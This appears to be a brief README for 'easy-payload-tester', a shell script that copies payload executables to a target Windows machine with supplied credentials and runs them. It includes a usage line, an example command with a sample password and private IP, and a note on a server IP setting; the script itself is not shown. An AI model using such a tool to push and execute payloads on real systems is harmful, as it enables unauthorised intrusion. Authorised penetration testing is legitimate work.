 # easy-payload-tester
Automatically transfer and execute the payload binaries to target windows system

./payload-tester.sh <username> <password> <target-ip> <payload.exe>
 
./payload-tester.sh test "Te\$terte\$t@123" 192.168.146.8 RESONANT_FORECAST.exe
 
![Image](payload-tester.png)

 Change the serverip varible if you are not having public ip.
